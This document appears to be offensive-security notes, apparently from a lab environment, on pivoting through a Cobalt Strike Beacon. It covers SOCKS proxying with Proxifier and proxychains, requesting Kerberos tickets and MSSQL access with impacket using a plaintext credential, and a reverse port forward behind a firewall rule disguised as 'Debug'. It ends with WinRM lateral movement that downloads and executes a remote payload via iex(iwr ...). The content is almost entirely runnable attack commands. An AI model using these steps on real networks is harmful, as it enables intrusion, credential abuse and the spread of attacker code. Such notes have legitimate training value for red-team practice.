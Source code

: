 
Add manual DNS entries
```powershell
Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.1 lon-dc-1'

Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.20 lon-db-1'
```

Start a socks proxy within Beacon
```powershell
socks 1080 socks5
```

##### Proxifier
1. Go **Profile** > **Proxy Servers** and add a new proxy server.
	- Address: `teamserver_ip`
	- Port: 1080
	- Protocol: Version 5
	- Use this proxy by default? -> No.
2. Go **Profile** > **Proxification Rules** and add the following rule
	- Name: Beacon
	- Applications: Any
	- Target hosts: 10.10.120.0/23
	- Target ports: Any
	- Action: Proxy SOCKS5 10.0.0.5

##### Proxychains

Edit `/etc/proxychains.conf` accordingly
```powershell
socks5 [teamserver_ip] 1080
```

Use proxychains to requests tickets and perform attacks
```bash
proxychains getTGT.py 'CONTOSO.COM/rsteel:Passw0rd!' -dc-ip 10.10.120.1

proxychains mssqlclient.py contoso.com/rsteel@lon-db-1 -windows-auth -no-pass -k -dc-ip 10.10.120.1
```

---

##### Reverse Port Forward

Create port forward on foothold machine
```powershell
rportfwd 28190 localhost 80

run netsh advfirewall firewall add rule name="Debug" dir=in action=allow protocol=TCP localport=28190
```

Perform lateral movement
```powershell
remote-exec winrm lon-ws-1 iex(iwr http://lon-wkstn-1:28190/test -useb)
```